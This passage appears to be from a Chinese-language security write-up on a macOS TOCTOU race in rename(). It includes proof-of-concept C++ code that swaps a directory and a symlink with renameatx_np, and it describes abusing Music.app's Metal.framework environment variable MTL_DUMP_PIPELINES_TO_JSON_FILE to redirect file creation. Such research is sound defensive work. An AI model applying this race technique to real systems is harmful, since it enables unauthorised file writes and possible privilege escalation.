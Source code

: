 ```cpp
            if(raceStart) {
                renameatx_np(AT_FDCWD,"./ABC",AT_FDCWD,"./MMM",RENAME_SWAP);
                usleep(10000);
            }
        }
    });
    
AGAIN:
    raceStart = true;
    usleep(100);
    rename(OLD_PATH,NEW_PATH);
    raceStart = false;
    system("rm -r ./ABC");
    system("rm -r ./MMM");
    symlink("./RESULT","./MMM");
    system("mkdir ./ABC");
    system("echo  RACE_RENAME!!! >./ABC/FMYY");

    goto AGAIN;
}
```

ABC目录和RESULT目录是一个常规文件夹，MMM是一个指向RESULT目录的符号链接。在代码进行rename之前，会先设置一个raceStart的符号，通知另一侧的多线程让ABC目录和MMM目录进行交换，交换一次就是ABC目录变为指向RESULT目录的符号链接，而MMM目录变为保存有FMYY文件的常规文件夹。因此`rename`和`renameatx_np`的竞争可以有三种情况：


1. 若是在`rename`函数之前，目录属性发生交换，那么`OLD_PATH`获取不到vnode节点，`rename`函数失败从内核返回；
2. 若是在`rename`函数之后，目录属性发生交换，那么行为已经发生，那么`SuccessFMYY`文件会存放在MMM文件夹；
3. 若在`rename`函数执行过程中，目录属性发生了变化，使得ABC目录被切换为指向RESULT目录的符号链接，那么`NEW_PATH`此时获取的文件夹节点将变为RESULT目录。因此，rename操作会在RESULT目录下创建一个新的名为`SuccessFMYY`的节点。

##### 利用

在Music.app启动之初，进程会加载Metal.framework框架，其中存在使用环境变量`MTL_DUMP_PIPELINES_TO_JSON_FILE`。

它可以指向一个文件路径，在`Metal.framework`中通过`getenv`函数获取对应变量，并调用`NSFileManager` 类中的`createFileAtPath`方法。

```objectivec
NSString *filePath = getenv("XXX");
NSFileManager *fileManager = [NSFileManager defaultManager];
BOOL success = [fileManager createFileAtPath:filePath contents:nil attributes:nil];
```

所传入的`filePath`则是由`MTL_DUMP_PIPELINES_TO_JSON_FILE`变量控制。如果对应文件存在，则会导致覆盖原文件并创建对应文件名。

若 `MTL_DUMP_PIPELINES_TO_JSON_FILE` 指向`/DIR/FILENAME`，目录有效则会在`/DIR/`目录下，创建随机文件名的一个文件<.dat.nosyncXXXX.XXXXXX>，并写入数据到此文件中，最后再将此文件通过`rename`函数修改为当前目录下FILENAME文件。因为是同目录中，而`rename`可能会被认为无法如前一个漏洞一样，进行任意位置迁移，但是根据上述构造的demo可知，当`rename`函数在第二次取出目录节点的过程中，能够存在二次取目录节点的行为，可以说明这里`rename`函数本身之内能进行TOCTOU攻击。

所以`rename`函数在使用的时候，是不会检测相关的符号链接的，因此可以引出同一族的其他函数如下：

```cpp
int renamex_np(const char *from, const char *to, unsigned int flags);
int renameatx_np(int fromfd, const char *from, int tofd, const char *to, unsigned int flags);
     RENAME_NOFOLLOW_ANY
          If any symbolic links are encountered during pathname resolution, an error is returned.
```
